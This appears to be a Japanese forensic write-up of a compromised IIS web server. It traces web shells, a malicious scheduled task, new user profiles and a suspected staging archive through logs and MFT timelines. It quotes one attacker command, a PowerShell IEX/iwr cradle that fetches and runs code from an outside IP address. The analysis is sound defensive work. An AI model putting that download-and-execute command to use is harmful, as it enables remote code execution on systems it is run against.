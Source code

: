 ![image](https://github.com/user-attachments/assets/2ae7414c-81e1-46b6-a5fd-c0a94fb940bc)
`submit.aspx`へのアクセスができなくなった以降のログを確認すると`2021-04-05 23:16:07`から`/global.aspx`にアクセスするようになった。
![image](https://github.com/user-attachments/assets/2df5ad50-b60e-44dc-9471-53717d9e5756)
* global.aspxに2021-04-06 00:27:45アクセスできなくなり、
* 2021-04-06 00:34:05に再アップロードしていた。
### ◇ 2021-04-05 23:00:00以降のログインを確認する

### ◇ タスクスケジューラを確認する
![image](https://github.com/user-attachments/assets/92cd6b39-c333-4a35-99a1-4bd420ef6427)
* 2021/04/06 034:16 dev_agardnerによって新しいタスクが実行されていた。

![image](https://github.com/user-attachments/assets/c6620f86-ae89-4246-9936-2f80f5c34c18)
![image](https://github.com/user-attachments/assets/9517e3b9-42db-4137-b847-f11250e83a7a)
* IIS APOOL\alienによって作成され、`powershell IEX (iwr -useb http://13.54.35.87:80/404_rl)`を実行していた。
* `http://13.54.35.87:80/404_rl`にデータを要求し、IEXによって実行していた。
![image](https://github.com/user-attachments/assets/4932cf90-6b57-4e26-973a-88dd30198564)
* 同時刻に実行されていた

### IEXによって実行されたパワーシェルを確認する
![image](https://github.com/user-attachments/assets/20fa8a35-b89e-4536-9096-c4387e9c250d)
* 2021/04/06 01:02:01に先程のタスクが実行されていた

### ◇ public-webdevマシンのMFTを見る
#### ① dev_agardnerへのログイン？
![image](https://github.com/user-attachments/assets/d3ba1e00-b7c3-4ae0-a532-3c67117a27ce)
* 2021-04-04 04:25:37 pub_webdevマシン上でdev_agardnerのプロファイルが作成されていた。
#### ② 以降よくわからんのの実行
![image](https://github.com/user-attachments/assets/774ab11b-f805-4ece-8605-28e7a42051bb)
* inetにいろいろやったり、INFにいろいろやった後、Windows Defenderが動いていた。
#### ③ Administratorへのログイン？
![image](https://github.com/user-attachments/assets/be5a6972-d6f8-4201-918e-be34c8746a7d)
* pub_webdevマシン上でAdministratorのプロファイルが作成されていた。

#### ④ 新しいWebShellの作成？
![image](https://github.com/user-attachments/assets/e4f04c04-251c-4f95-8d45-0f46f677e5f4)
* 2021-04-05 23:16:07 新たに、global.aspx.cdcab7d2.compiledが作成されていた。
* global.aspxへのアクセスがウェブサービスのログにあったので、新たに作成されたWebShellだと考えられる

#### ⑤ 重要ファイルの収集？
![image](https://github.com/user-attachments/assets/5415a5d2-7579-4b44-9d3d-1b54e32cc2e6)
* 2021-04-06 00:42:13 謎のファイル`\Windows\Temp\xfiles.zip`が作成されていた。
* 名前からおそらく重要ファイルをアーカイブしたものだと考えられる
